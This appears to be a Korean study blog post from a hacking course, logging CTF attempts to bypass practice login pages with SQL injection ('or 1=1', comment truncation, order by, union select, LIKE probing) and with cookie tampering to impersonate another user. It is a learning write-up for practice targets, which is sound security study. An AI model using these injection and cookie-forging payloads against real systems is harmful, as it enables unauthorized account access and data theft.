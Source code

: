 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-26
last_modified_at: 

tags: [TIL, WEB, DATABASE, CTF]
---
```


# login bypass 3
1. 
id: doldol
pw: dol1234
-> login.php에서 index.php로 302
-> 서버측에서 웹페이지 이동시켜준다
2. 
id: doldol' and '1' = '1
pw: dol1234
-> O
-> sql injection 가능하다
-> query에서 괄호가 안 쓰였어
3. 
id: doldol' or '1' = '1
pw: dol1234
-> X
-> or 필터링이 되어 있는 걸까요?
4. 
id: doldolor
pw: dol1234
-> X
-> 'or' 필터링 X
5. 
id: doldol or
pw: dol1234
-> X
-> ' or' 필터링 X
6. 
id: doldol or 
pw: dol1234
-> X
-> ' or ' 필터링 X
7. 
id: doldolor '1' = '1
pw: dol1234
-> X
-> "or '1' = '1" 필터링 X
8. 
id: doldol'or'1'='1
pw: dol1234
-> X
-> 띄어쓰기 관련도 아닌가봐요
9. 
id: doldol'and'1'='1
pw: dol1234
-> O
-> or이랑 관련이 있는 건데...
10. 
id: doldol'or'1'='1'#
pw: dol1234
-> X
11. 
id: doldol'#
pw: dol1234
-> O
12. 
id: doldol'#
pw: asdf
-> X
-> 식별, 인증 분리 or 줄을 새로 넘겼거나
13. 
id: doldol' order by 1 #
pw: dol1234
-> O
14. 
id: doldol' order by 1, 2 #
pw: dol1234
-> O
13. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column은 ID, PW 두 개만 있네요
14. 
id: doldol' union select 1, 2 #
pw: dol1234
-> O
-> union은 안 막혀있네요
-> 근데 data를 볼 수 있는 곳이 없잖아요
15. 
id: doldol' union select database(), 2 #
pw: dol1234
-> O
16. 
id: doldol
pw: dol1234'and'1'='1
-> X
-> if input_pw == DB['pw']: 통과
17.
UPDATE sqli_1 SET UserId = 'normaltic3', Password = 'asdf' where UserId = 'normaltic3';
-> table name을 몰라
-> 비밀번호를 바꿀 수 없어

# login bypass 4
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-10.png?raw=true)
-> login.php과 logout.php에서 302 응답 코드가 보인다.
-> 다른 페이지로 이동시켜준다는 뜻
2. 
id: doldol' and '1' = '1
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> sql injection 가능하다
-> 괄호 X
3. 
id: doldol'#
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 주석 처리 가능
4. 
id: doldol'#
pw: asdf
-> X
-> 줄바꿈을 했거나
-> 식별과 인증을 분리했거나
5. 
id: doldol' or '1' = '1
pw: asdf
-> 식별과 인증을 분리했네
    -> normaltic4의 비밀번호를 바꾸거나
        -> update: table과 column 이름 필요
        update [table] set [col1] = val1, ... where condition;
    -> normaltic4의 비밀번호를 확인하거나
        -> union: 모든 결과값을 확인할 수 있어야 함
-> 여기도 column이 name일까?
6. 
id: doldol' and name = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> column이 name이네?
-> 그러면 column 개수도 똑같나?
7. 
id: doldol' order by 1, 2, 3, 4, 5, 6 #
pw: dol1234
-> X
8. 
id: doldol' order by 1, 2 #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
9. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column 개수가 3개네
-> 그러면 딱 id랑 pw만 있네
10. 
id: doldol' and Password = 'dol1234
pw: dol1234
-> x
11. 
id: doldol' and pass = 'dol1234
pw: dol1234
-> x
12. 
id: doldol|normaltic4
pw: dol1234
-> X
-> 정규식에서 |가 or을 의미한다고 해서 해봤는데 안되네
13. 
id: doldol' union select 1, 2' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 데이터를 볼 수가 없네
14. 
알고 있는 정보를 정리해 보자
1. 식별, 인증 분리 로직
2. column은 2개 -> id, pw
3. doldol/dol1234, normaltic4/?
select * from table where id = id
if db_pw = input_pw:
    통과
15. 
id: doldol' and UserId = 'doldol' #
pw: dol1234
-> x
16. 
id: doldol' and userId = 'doldol' #
pw: dol1234
-> x
17. 
id: doldol' and userid = 'doldol' #
pw: dol1234
-> x
18. 
id: doldol' and id = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
19. 
id: doldol' or id = 'normaltic4' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> id는 normaltic4, pw는 doldol꺼 차용해서 로그인할 수 있을 줄 알았는데 doldol씨네
-> 순서 차이?
20. 
id: normaltic4' or id = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> id랑 pw가 같은 계정으로 로그인되나봐
select * from table where id = id
if db_pw = input_pw:
    통과한 아이디로 로그인
21. 
id: normaltic4'
pw: ' or '1' = '1
-> x
-> 역시나 안 되고
22. 
id: doldol
pw: dol1234' and pw = 'dol1234' #
-> X
23. 
id: doldol' and pw = 'dol1234' #
pw: dol1234
-> x
23. 
id: doldol' and pass = 'dol1234' #
pw: dol1234
-> x
23. 
id: doldol' and UserPass = 'dol1234' #
pw: dol1234
-> x
-> pw, passwd, password, pass, hash
24. 
select * from table where id = id;
update table set pw = '1234' where id = 'normaltic4' #
if db_pw = input_pw:
    통과

-> union 값을 넣어줄 장소를 마련해줄 수는 없을까?

# Login Bypass 5
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-7.png?raw=true)
response에서 Set-Cookie: loginUser = doldol이 보인다
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-8.png?raw=true)
2. response를 탈취해서 loginUser를 normaltic5로 변경하겠다
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-9.png?raw=true)

# Secret Login
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-3.png?raw=true)
-> login.php과 logout.php에서 302 응답 코드가 보인다.
-> 다른 페이지로 이동시켜준다는 뜻
2. 
id: doldol' and '1' ='1
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> sql injection이 가능하다
-> 괄호 X
3. 
id: doldol'#
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 주석 처리 가능
4. 
id: doldol'#
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 식별과 인증 동시에 하는 듯
sql: select id, pw from table where id = 'id' and pw = 'pw'
5. 
id: ' or '1' = '1'#
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> ' or '1' = '1'#이렇게 하면 모든 row를 다 챙겨오는 데 하나 밖에 안 보여지다보니 가장 첫 번째 row만 보여지는 듯
6. 
id: login_acc' #
pw: asdf
-> X
-> 왜 안 되지?
-> 표시되는 게 아이디가 아니라 이름인 건가?
7. 
id: login_acc' or '1' = '1' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
8. 
id: ' or '1' = '1' order by 1, 2, 3 #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> 아이디, 패스워드, 사용자 이름이 있다고 가정하고 시작
... 하나씩 늘려보는 중 ...
8. 
id: ' or '1' = '1' order by 1, 2, 3, 4, 5, 6, 7 #
pw: asdf
-> x
-> column이 6개인 걸 보면 표시되는 게 아이디가 아니라 이름일 가능성이 높네
-> admin의 row를 어떻게 가져올 수 있을까?
9. 
SELECT [UserId], [Password] FROM [table] WHERE [UserId] = '___' AND [Password] = '___'
column을 UserName일 것이라 추측해봄
id: ' or '1' = '1' AND UserName = 'login_acc' #
pw: asdf
-> X
10. 
id: ' or '1' = '1' AND Username = 'login_acc' #
pw: asdf
-> X
11. 
id: ' or '1' = '1' AND username = 'login_acc' #
pw: asdf
-> X
12. 
id: ' or '1' = '1' AND user_name = 'login_acc' #
pw: asdf
-> X
13. 
id: ' or '1' = '1' AND user-name = 'login_acc' #
pw: asdf
-> X
14. 
id: ' or '1' = '1' AND name = 'login_acc' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> 표시되는 게 유저명인 게 확실해졌고
-> column이 name이라는 것도 확인했다
-> 그렇지만 admin은 아니라는 거
-> 혹시 name에 like를 집어넣으면? flag의 경우에는 {}가 들어가니까 이걸 검색하는 걸로
15. 
SELECT * FROM [table] WHERE [UserId] = '___' or '1' = '1' AND name like '%}' #[Password] = '___'
id: ' or '1' = '1' and name like '%}' #
pw: asdf
-> X
-> 어딘가 문법이 틀렸나
16. 
id: ' or name like '%}' #
pw: asdf
-> x
17. 
id: ' or name like '%a%' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
18. 
id: ' or name like '%e%' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-6.png?raw=true)